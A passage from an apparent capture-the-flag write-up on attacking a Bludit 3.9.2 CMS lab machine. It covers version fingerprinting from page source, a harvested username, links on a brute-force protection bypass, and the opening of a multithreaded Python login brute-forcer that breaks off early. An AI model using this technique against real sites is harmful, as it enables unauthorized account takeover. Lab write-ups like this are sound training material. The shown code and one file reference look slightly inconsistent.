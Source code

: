 I also found the file `todo.txt` which contained a potential username `fergus` and some hardening steps that were taken to secure the site.

```text
<!DOCTYPE html>
<html>
<head>
    <title>Bludit</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="robots" content="noindex,nofollow">

    <!-- Favicon -->
    <link rel="shortcut icon" type="image/x-icon" href="/bl-kernel/img/favicon.png?version=3.9.2">

    <!-- CSS -->
    <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/admin/themes/booty/css/bludit.css?version=3.9.2">
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/admin/themes/booty/css/bludit.bootstrap.css?version=3.9.2">

    <!-- Javascript -->
    <script src="http://10.10.10.191/bl-kernel/js/jquery.min.js?version=3.9.2"></script>
<script src="http://10.10.10.191/bl-kernel/js/bootstrap.bundle.min.js?version=3.9.2"></script>

    <!-- Plugins -->
    </head>
```

The header of the file `config.log` contained the line "`/bl-kernel/img/favicon.png?version=3.9.2`" which told me the version of the Bludit service was 3.9.2 . I did some research on "bludit 3.9.2 exploit" which led me to a few useful sites.

* [https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb)
* [https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) 
* [https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081)

From the information in these sites I gained enough information to craft a Python script to brute force the login of the CMS.  At first my script ran very slowly, so I looked up how to make the script multi-threaded to speed things up a bit. 

* [https://github.com/averagesecurityguy/scripts/blob/master/bruteforce/multi\_ssh.py](https://github.com/averagesecurityguy/scripts/blob/master/bruteforce/multi_ssh.py) 

```python
#!/usr/bin/env python3

import multiprocessing
import sys
import time
from multiprocessing import Queue
import re
import requests

def worker(cred_queue, success_queue):
    print('Starting new worker thread.')
    while True:
        try:
            password = cred_queue.get(timeout=10)
        except Queue.Empty:
            return 

```